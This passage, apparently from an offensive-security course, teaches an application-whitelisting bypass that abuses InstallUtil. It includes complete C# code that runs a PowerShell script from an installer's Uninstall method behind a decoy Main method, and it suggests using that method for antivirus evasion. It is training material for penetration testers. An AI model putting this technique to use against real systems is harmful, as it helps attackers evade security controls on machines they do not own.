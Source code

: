 > Listing 19 - Framework proof of concept for installutil

There are a few things to note about this code. First, the _System.Configuration.Install_ namespace is missing an assembly reference in Visual Studio. We can add this by again right-clicking on _References_ in the Solution Explorer and choosing _Add References..._. From here, we'll navigate to the _Assemblies_ menu on the left-hand side and scroll down to _System.Configuration.Install_, as shown in Figure 11.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/aw/b71f1063c3c29fda2763f1e14e337534-aw_installutil_addasm.png" alt="Figure 11: Adding an assembly reference to System.Configuration.Install"><figcaption><p>Figure 11: Adding an assembly reference to System.Configuration.Install</p></figcaption></figure>

Once the assembly reference has been added the displayed errors are resolved. Although our code uses both the _Main_ method and the _Uninstall_ method, content in the _Main_ method is not important in this example. However, the method itself must be present in the executable.

Since the content of the _Main_ method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the _Uninstall_ method, we can execute arbitrary C# code. In this case, we will use the custom runspace code we developed in the previous section. The combined code is shown in Listing 20.

```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```
